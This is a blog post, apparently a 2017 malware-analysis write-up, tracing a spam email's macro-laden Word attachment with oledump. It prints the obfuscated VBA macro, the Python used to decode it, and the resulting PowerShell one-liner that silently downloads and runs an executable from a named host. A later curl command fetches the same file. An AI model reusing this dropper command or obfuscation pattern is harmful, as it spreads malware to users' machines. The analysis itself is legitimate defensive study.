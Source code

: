 ```yaml
---
layout: post
title:  "Analyzing maldocs with oledump"
date:   2017-01-29 07:00:00
comments: true
categories: reversing security malware macros
---
```



I always worked for the red team but as I was going through my spam folder this morning I decided I'd give a try at analyzing malicious attachments. I also secretly always wanted to check out Didier Stevens' [oledump](https://blog.didierstevens.com/programs/oledump-py/) tool so this was a good excuse :)

#### E-mail

The mail looked like this:

{% highlight text %}
Date: Fri, 27 Jan 2017 12:26:06 +0100
From: Mihail <hunter@puppetlabs.com>
To: contact@quentinkaiser.be
Subject: question
Reply-To: Mihail <AdamBuchbinder@tutanota.com>
X-Mailer: Microsoft Windows Live Mail 14.0.8117.416
Message-ID: <1CE6AE0E2AFED033EFEAA3140087FFB0@sh>

Hey. I found your software is online. Can you write the code for my project?
Terms of reference attached below.
The price shall discuss, if you can make. Answer please.
{% endhighlight %}

The attachment is a file named *New.gz* allegedly containing the "Terms of reference" Mihail is talking about.

#### Malicious attachment fingerprinting

So let's dive in ! I launched a VM and ran some basic checks on the file. binwalk tells us that the file is actually a RAR archive, even though the extension says *.gz*

{% highlight sh %}
$ binwalk New.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             RAR archive data, first volume type: MAIN_HEAD
{% endhighlight %}

The archive contains a document named *New.doc*, apparently a Microsoft Office document:

{% highlight sh %}
$ file New.doc 
New.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1251, Template: Normal, Last Saved By: Normal, Revision Number: 2, Name of Creating Application: Microsoft Office Word, Create Time/Date: Fri Jan 27 05:14:00 2017, Last Saved Time/Date: Fri Jan 27 05:14:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 5, Security: 0
{% endhighlight %}

#### Malicious attachment analysis

I can finally try oledump !

{% highlight sh %}
$ python oledump.py -i New.doc
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:     11555 '1Table'
5:       367 'Macros/PROJECT'
6:        41 'Macros/PROJECTwm'
7: M   84985 'Macros/VBA/ThisDocument'
8:     16765 'Macros/VBA/_VBA_PROJECT'
9:       517 'Macros/VBA/dir'
10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
12:     15974 'WordDocument'
{% endhighlight %}

We can see that there is a VBA macro on stream 7, let's extract it with oledump:

{% highlight sh %}
$ python oledump.py -s 7 -v New.doc > payload.vba
{% endhighlight %}

The VBA payload contains a shit load of "obfuscated" code but we can find the interesting part by pinpointing where the call to `Shell` happens. We can see in the excerpt below that the argument provided to `Shell` is a concatenation of the `sraqteby` array elements. Yes, there are some array indexing bullshit. I doubt this ever made reversing difficult :D

{% highlight vbnet %}
sraqteby = Array("CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E",
"b^", "cL", "i^", "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE", "'""")

ozqaqzusw = Array("odevzu", "qvonwav", "ohizef", "decaqo", "azxut", Join(sraqteby, ""), "irtubgu")(5)


eratcyke = ucbejja & ubep & ogyl
zema2 = rbipole & scivikwo & ynehsoc & qhyxob
vnilden3 = ejveme & omvyrzi & ezeln & nrezi
uhysylhi = ycijt & yzowr & olec
orybm5 = uzsygip & uhyhges & rmyle
mufqim = wnisofmo & nukag
ywgodyr = Array(mufqim, orybm5, uhysylhi, vnilden3, zema2, Shell(Array(ozqaqzusw)(0), 0), eratcyke)(5)
{% endhighlight %}

I opened a Python interpreter and executed the code below to get the argument provided to `Shell`:

{% highlight python %}
a = ["CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E", "b^", "cL", "i^",
 "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE"]

print  "".join(a).replace("^", "")
{% endhighlight %}

Which gave me the following one-liner that downloads an executable with PowerShell and executes it (URL escapes are mine):

```
"CMD.exe /C poWeRsHElL.EXe     -eXECUTIonPoLICy bypAss    -NOprOFile -winDowSTyLE    hIDden   (neW-ObjeCT    sySteM.NET.WEbcLiEnT).dOWNloadFIlE('http://nicklovegrove[.]co[.]uk/wp-content/margin2601_onechat_word.exe','%APPdAta%.Exe');sTArT-pROCEsS '%APpdaTa%.ExE"
```

Let's hash it !

{% highlight sh %}
$ curl http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe | sha1sum
0df45a365e2135531b0beba8e50d0453eee70047
{% endhighlight %}

Submitting the hash to [VirusTotal](https://www.virustotal.com/en/file/3f73b09d9cdd100929061d8590ef0bc01b47999f47fa024f57c28dcd660e7c22/analysis), we can see it's already detected as a Trojan by some AV. Some analyst provided the download URL in comments.


That's all for now, I'm not good enough at reversing Windows executables to go further :)
